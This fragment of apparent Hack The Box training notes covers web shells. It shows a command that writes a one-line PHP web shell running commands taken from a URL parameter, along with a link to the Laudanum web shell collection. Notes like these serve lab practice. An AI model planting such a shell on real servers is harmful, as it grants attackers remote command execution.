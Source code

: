 
```shell
la1n23@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Collection of webshells laudanum:
https://github.com/jbarcia/Web-Shells/tree/master/laudanum

`cp /usr/share/laudanum/... shellfile`